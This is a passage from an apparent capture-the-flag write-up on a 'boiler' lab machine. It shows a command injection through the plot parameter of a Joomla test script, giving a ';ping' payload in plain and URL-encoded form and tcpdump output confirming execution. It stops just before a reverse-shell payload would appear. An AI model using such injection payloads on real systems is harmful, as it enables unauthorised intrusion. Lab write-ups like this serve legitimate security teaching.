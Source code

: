 http://10.10.56.122/joomla/_test/index.php?plot=LINUX
</pre>
<p>Could we inject a command a plot parameter? Let's test it. Therefore, I opened burpsuite and tried to ping myself as follows:</p>
<img src="/images/boiler/boiler_burpsuite_command_execution_ping.webp" alt="burpsuite achieving command execution" class="postImage">
<p>payload:</p>
<pre>
GET /joomla/_test/index.php?plot=;ping 10.9.235.177;
</pre>
<p>payload url encoded:</p>
<pre>
GET /joomla/_test/index.php?plot=%3b%70%69%6e%67%20%31%30%2e%39%2e%32%33%35%2e%31%37%37%3b
</pre>

<p>The output on our attacking machine:</p>
<pre>
┌──(kali㉿kali)-[~]
└─$ sudo tcpdump -i tun0 icmp                                                                                                                                         
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
12:56:44.591976 IP 10.10.56.122 > 10.9.235.177: ICMP echo request, id 1554, seq 1, length 64
12:56:44.591989 IP 10.9.235.177 > 10.10.56.122: ICMP echo reply, id 1554, seq 1, length 64
12:56:45.598534 IP 10.10.56.122 > 10.9.235.177: ICMP echo request, id 1554, seq 2, length 64
</pre>

<p>Indeed, we have successful code execution!Next, I created a payload for a reverse shell. After some try and error, I got it to work:</p>
<img src="/images/boiler/boiler_burpsuite_reverseshell_request.webp" alt="burpsuite payload reverse shell" class="postImage">
<p>payload:</p>